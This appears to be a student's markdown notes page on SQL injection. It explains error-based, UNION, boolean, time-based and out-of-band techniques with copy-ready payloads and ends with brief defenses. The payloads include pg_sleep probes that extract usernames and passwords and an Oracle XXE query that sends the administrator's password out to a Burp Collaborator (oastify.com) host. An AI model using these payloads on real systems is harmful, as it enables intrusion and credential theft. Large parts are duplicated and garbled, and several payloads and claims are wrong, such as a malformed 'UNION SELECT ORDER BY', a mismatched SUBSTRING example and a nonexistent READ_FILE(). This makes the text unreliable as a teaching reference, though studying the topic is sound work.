




# SQL INJECTION

### RDBMS

> * Relation Databases management system. Its a program which used to maintain Databases.
> * In this days everyone use Microsoft Excel which has tables ( Rows & columns)  which is similar to SQL.
> * RDMS is the basic for all the modern Database System such as MYSQL, Microsoft SQL, Oracle etc.&#x20;

## SQL (Structured Query Language)

> * It's mostly used in the web application for query.
>   * Example: A Database used by company items, web application doesn't normally make users to entire SQL Query instead its used MENU, Buttons etc.  to perform Querys.
>   * When an online shop user clicks a button to add sweater to CART, it triggers the SQL query.

<figure><figcaption><p>SQL services</p></figcaption></figure>

> Example:
>
> > How SQL works on the login process.
> >
> > * The login web page has the input parameters (username/password) where it sends comparing with the stored database entries for the specific user.
> > * The specific username and password match any entries in the database, the SQL service will return that in web application which will accept the user into the login page.
> > * POST Login the web application will set the username and password or user credentials in the form of cookie or authenticated token that is blinded. The cookie is stored in user browser and web application locally.
> > * An Entry for the searched item in database, under a different table which blind the information is retrieved and send the web application to the present user as image, text, links, other types such as comments and reviews.

<figure><figcaption><p>SQL Services</p></figcaption></figure>

> > * Web application use database such as MYSQL, MSSQL, MariaDB, or other kind of database so the data collect, or server can be stored somewhere DATA could be username, password, posts, message, or more sensitive such as PII (personal Identification Information) like: `https://en.wikileaks.org/wiki/personaldata` which is protected by internation law.

> > * A company which does not follow to protect the user PII will be welcome with heavy fine from international Regulator and Data Privacy Agencies.

## SQL Injection

> * Allows the attacker to interreact with web application database,
> * An attacker interfering with SQL queries that an application makes to a database.
> * The SQL allows to read, create and delete table but not rewrite the tables.
> * SQL injection exploit web application by using SQL Statements that retrieve and store user input data.
> * There are many different techniques of protecting SQL Injection like input validation and sanitization,&#x20;

<figure><figcaption><p>SQL Injection</p></figcaption></figure>

### Find SQL Injection

> 1. Find Database Quote: use '`\`' or '`/`' (Forward or back slash) to find which quote is being used by database so this cause an error with either single quote
> 2. **Breaking and Patching Query**: Break the query using the finding database query quote then fix the query using SQL comments arguments `--+` or `#` based on the database. so the final query is `' --+`
> 3. **Find the Number of Columns**: After breaking and patching the query find the number of columns using ORDER BY and increase it by 1 more columns using `ORDER BY 1` unit the error is occurred which results the columns are ended in database. so the final query is `' ORDER BY 1 --+`
> 4.  **Find the Types of SQLi**: After knowing the number of columns in the database use the SQL UNION operator to add the second query in a single results.
>
>     ```sql
>     ' UNION SELECT ORDER BY 1 --+ 
>     ' UNION SELECT ORDER BY 1,2 --+ 
>     ' UNION SELECT ORDER BY NULL,NULL --+
>     ```
>
>     * Types of SQL injection:
>       1. In-band SQL injection: Get the query response in the same connection. also known as Classic Injection.
>          * Error Based Injection: An attacker query to the web application database that cause an error in the response which results in obtaining information about the database.
>          * UNION Based: An Attacker uses the SQL UNION operator to combine results from two queries into a single response from in the web application.
>       2. Blind SQL injection: An Attacker query are accepted but no response is received in the web application.
>          1. Boolean Band Injection: An attacker queries responses are either TRUE or FALSE (1 and 0s)
>          2. Time Based Injection :  An Attacker queries cause the database to pause for a specific period of time.
>       3. Out of Band SQL injection: An Attacker queries that cause the database to communicate with an external server to send database information.
> 5. SQL Injection to Remote Code Execution: Chaining SQL injection with other Vulnerabilities such as File Upload or Path traversal after uploading files use SQL function like `READ_FILE()` or `LOAD_FILE()` to read files from the server. A file can't be replaced or overwrite but new files can added using SQL function of `OUTFILE` or `DUMPFILE`

### Types of Injection

<figure><figcaption><p>Types of Injection.</p></figcaption></figure>


#### In Band Injection:

> Get the query response in the same connection. also known as Classic Injection.

In Band Injection Types

> An Attacker tricks the web application database by triggering database errors to obtain information about the database.

Error Based Injection

Example

`'`

`"`

`\`

`%`

URL

```
https://example.com/login.php?username="""&password="\"
```

Database response:


```
Error: you have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use % at line 1.
```


UNION Based Injection

> An Attacker uses the SQL UNION operator to combine results from two queries into a single response from in the web application.

Exmaple:

Payload:

```sql
' ORDER BY 1 --+
```

Continue unit an error is occurred.

```sql
' ORDER BY 7--+
```


Used UNION with custom query or SQL functions into those NUMBERS.

```sql
' UNION SELECT 1,user(),3,4,5,6,7--+
```

Filter Bypass with XML Encoding

```xml
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#124;&#124;&#39;&#58;&#39;&#124;&#124;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;'
```

#### Blind Injection

> An Attacker query are accepted but no response is received in the web application.

Types of Blind Injection

Boolean-Based Injection:

> An attacker queries responses are either TRUE or FALSE.

Example:

URL:

```
https://example.com/movies.php?id=1
```


Backend Query::

```sql
SELECT title FROM movies WHERE id = 1
```


Payload for FALSE:

```
https://example.com/movies.php?id=1 and 1 = 2
```


Backend Query for False

```sql
SELECT title FROM movies WHERE id = 1 and 1 = 2
```


Payload for TRUE

```sql
https://example.com/movies.php?id=1 and 1 = 1
```


Backend Query For TRUE

```sql
SELECT title FROM movies WHERE id = 1 and 1 = 1
```


SUBSTRING Function

> Extract the characters from string, the first number is the starting position, and the second number is the number of characters to extract.

Credentials is Admin/P@ssw0rd


Payload:


```sql
https://example.com/login.php?id=1 and SUBSTRING((select password from users WHERE username='Admin') , 1, 1) ='p'
```


Backend Query:


```sql
select login from user where id = 1 and SUBSTRING((select password from users where username='Admin'), 1, 1) = 'y'
```


> if the query is true and the second query is false resulting in false then it returns nothing if it's true it returns the ID 1.

Time Based Injection

> An Attacker queries cause the database to pause for a specific period of time.

Example:

Payload 1  True :

```sql
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Payload 2: False:

```sql
';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```


Finding Colunms:


```sql
payload = f"';SELECT CASE WHEN (column_name='{columnName[0]}') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM information_schema.columns WHERE table_name='users'--"
```



Finding Username:


```sql
# Payload 1:
payload = f"';SELECT CASE WHEN (LENGTH(username) > 12) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"

# Payload 2:
payload = f"';SELECT CASE WHEN (LENGTH(username) > 13) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"

```



Finding Password


```sql
# Payload 1:
payload = f"';SELECT CASE WHEN (LENGTH(password) > 19) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"

# Payload 2:
payload = f"';SELECT CASE WHEN (LENGTH(password) > 20) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"

```



Out of Band Injection:

> An Attacker queries that cause the database to communicate with an external server to send database information.
>
>

Payload:

<pre class="language-sql"><code class="lang-sql"><strong>xp_dirtree is used in SQL for nslookup'
</strong><strong>
</strong> ; exec master ..xp_dirtree '//BURPCollabirator.net\a'--
</code></pre>


Query:


```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual
```



DNS Lookup:


```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual
```



Payload


```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual--
```



Query For Username and Password


```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```



Payload


```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mxnzb3id8s5c4ybbbezsdqg8xz3qrhf6.oastify.com/"> %remote;]>'),'/l') FROM dual--
```



### Defense Against SQL Injection

Use Prepared Statement

> Instead of putting user input directly into SQL query Use a placeholder for the user input.


```sql
$stmt = $pdo->prepare('SELECT * FROM users WHERE username = ?'); $stmt->execute([$username]);
```


Use SQL stored Commands

> Use the SQL Commands stored in database so the SQL can't interreact with user directly.


```sql
// Example: Calling a stored procedure in SQL Server EXECUTE sp_GetUserInfo @username = 'user123';
```


Whitelisting

> Only certain types of input that are allowed.


```plsql
// Example: Calling a stored procedure in SQL Server EXECUTE sp_GetUserInfo @username = 'user123';
```


Input Validation

> Add special characters to user input so that the database can't be mistaken for SQL Commands


```sql
Example: Escaping single quotes in SQL using MySQLi $username = 
mysqli_real_escape_string($conn, $_POST['username']); $password = mysqli_real_escape_string($conn, $_POST['password']);
```



>
>
> Blind Injection
>
> > where the attacker queries accepted in the database but doesn't get response in the web application.
> >
> > Types
> >
> > > Boolean Based Injection
> > >
> > > Where the attacker queries response TRUE OR FALSE in the response.
> > >
> > > Example
> > >
> > > > URL: https.exaple.com/movies.php?id=1
> > > >
> > > > backed query: seclect title from movies where id = 1
> > > >
> > > > payload 1 false
> > > >
> > > > url: https.exaple.com/movies.php?id=1 and 1 = 2
> > > >
> > > > backed query: seclect title from movies where id = 1 and 1 = 2
> > > >
> > > > payload 2 true
> > > >
> > > > url: https.exaple.com/movies.php?id=1 and 1 = 1
> > > >
> > > > backed query: seclect title from movies where id = 1 and 1 = 1
> > > >
> > > >
> > > >
> > > > SUBSTRING Funtion extract character from the string.  the first 1 is extract from and second 1 is number of character to be extacted.
> > > >
> > > > Credentails
> > > >
> > > > Admin / P@ssw0rd
> > > >
> > > > payload:&#x20;
> > > >
> > > > https://example.com/login.php?id = 1 and SUBSTRING(( select password from users where username= 'Admin'), 1 , 1 ) = 'P'
> > > >
> > > > backend
> > > >
> > > > select login from user where id = 1 and SUBSTRING((select password from users where username='Admin'), 1, 1) = 'y'
> > > >
> > > > so the id is true and the second quert is false whhich result in false  then it will return nothing.
> > > >
> > > > if this true it will return the id 1.
> > >
> > > Time Based Injection
> > >
> > > Where the attacker query response database to pause for a specific period of time after that its will result SQL query successfully execute.
> > >
> > > Example:
> > >
> > > ```
> > > # Payload 1:
> > > payload = """';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""
> > >
> > > # Payload 2:
> > > payload = """';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""
> > >
> > > Columns:
> > > payload = f"""';SELECT CASE WHEN (column_name='{columnName[0]}') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM information_schema.columns WHERE table_name='users'--"""
> > >
> > > Username:
> > > # Payload 1:
> > > payload = f"""';SELECT CASE WHEN (LENGTH(username) > 12) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"""
> > >
> > > # Payload 2:
> > > payload = f"""';SELECT CASE WHEN (LENGTH(username) > 13) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"""
> > >
> > > Password:
> > > # Payload 1:
> > > payload = f"""';SELECT CASE WHEN (LENGTH(password) > 19) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"""
> > >
> > > # Payload 2:
> > > payload = f"""';SELECT CASE WHEN (LENGTH(password) > 20) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"""
> > > ```
>
> Out of Band Injection
>
> > xp\_dirtree is used in SQL for nslookup'
> >
> > ; exec master ..xp\_dirtree '//BURPCollabirator.net\a'--
> >
> > Query:
> >
> > ```
> > SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual
> > ```
> >
> > DNS Lookup:\
> >
> >
> > ```
> > SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual
> > ```
> >
> > \
> > \
> > \
> > Payload:
> >
> > ```
> > ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual--
> > ```
> >
> > The SQL Query:
> >
> > ```
> > SELECT TrackingId FROM tracking WHERE TrackingId = 'UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
> > ```
> >
> > \
> > \
> > Query for username and password:\
> >
> >
> > ```
> > SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
> > ```
> >
> > \
> > Payload:\
> >
> >
> > ```
> > ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mxnzb3id8s5c4ybbbezsdqg8xz3qrhf6.oastify.com/"> %remote;]>'),'/l') FROM dual--
> > ```
> >
> > \
> > \
> > \
> >
